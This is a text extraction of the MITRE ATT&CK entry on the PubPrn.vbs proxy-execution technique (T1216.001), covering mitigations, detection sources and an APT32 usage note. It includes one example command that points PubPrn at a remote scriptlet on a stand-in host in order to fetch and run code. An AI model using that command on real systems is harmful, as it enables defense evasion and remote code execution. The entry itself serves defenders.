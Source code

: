 3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 1/4Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 2/4Home>Techniques>Enterprise>System Script Proxy Execution>PubPrn3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 3/4System Script Proxy Execution: PubPrn
Procedure Examples
ID Name Description
G0050 APT32 APT32 has used PubPrn.vbs within execution scripts to execute malware, possibly bypassing defenses.
Mitigations
ID Mitigation Description
M1040 Behavior
Prevention on
EndpointOn Windows 10, update Windows Defender Application Control policies to include rules that block the
older, vulnerable versions of PubPrn.
M1038 Execution
PreventionCertain signed scripts that can be used to execute other programs may not be necessary within a given
environment. Use application control conﬁgured to block execution of these scripts if they are not
required for a given system or network to prevent potential misuse by adversaries.Adversaries may use PubPrn to proxy execution of malicious remote ﬁles. PubPrn.vbs is a Visual Basic script that publishes a printer to
Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the Windows Command Shell
via Cscript.exe . For example, the following code publishes a printer within the speciﬁed domain: cscript pubprn Printer1
LDAP://CN=Container1,DC=Domain1,DC=Com .
Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites. To do so, adversaries may set the second script:
parameter to reference a scriptlet ﬁle (.sct) hosted on a remote site. An example command is pubprn.vbs 127.0.0.1
script:https://mydomain.com/folder/file.sct . This behavior may bypass signature validation restrictions and application control
solutions that do not account for abuse of this script.
In later versions of Windows (10+), PubPrn.vbs has been updated to prevent proxying execution from a remote site. This is done by limiting
the protocol speciﬁed in the second parameter to LDAP:// , vice the script: moniker which could be used to reference remote code via
HTTP(S).[1]
[2]
Version PermalinkID: T1216.001
Sub-technique of:  T1216
 
Tactic: Defense Evasion
 
Platforms: Windows
 
Defense Bypassed: Application Control, Digital Certiﬁcate Validation
Contributors: Atul Nair, Qualys
Version: 2.0
Created: 03 February 2020
Last Modiﬁed: 18 April 2022
[3]
[4]3/22/24, 3:45 PM System Script Proxy Execution: PubPrn, Sub-technique T1216.001 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1216/001/ 4/4Detection
ID Data SourceData Component Detects
DS0017 Command Command
ExecutionMonitor executed commands and arguments for scripts like PubPrn.vbs that may be used to
proxy execution of malicious ﬁles.
DS0009 Process Process
CreationMonitor script processes, such as `cscript that may be used to proxy execution of malicious
ﬁles.
DS0012 Script Script
ExecutionMonitor for any attempts to enable scripts running on a system would be considered
suspicious. If scripts are not commonly used on a system, but enabled, scripts running out of
cycle from patching or other administrator functions are suspicious. Scripts should be
captured from the ﬁle system when possible to determine their actions and intent.
References
1. Jason Gerend. (2017, October 16). pubprn. Retrieved July 23,
2021.
2. Nelson, M. (2017, August 3). WSH INJECTION: A CASE STUDY.
Retrieved April 9, 2018.3. Carr, N. (2017, December 22). ItsReallyNick Status Update.
Retrieved April 9, 2018.
4. Microsoft. (2021, August 23). Retrieved August 16, 2021.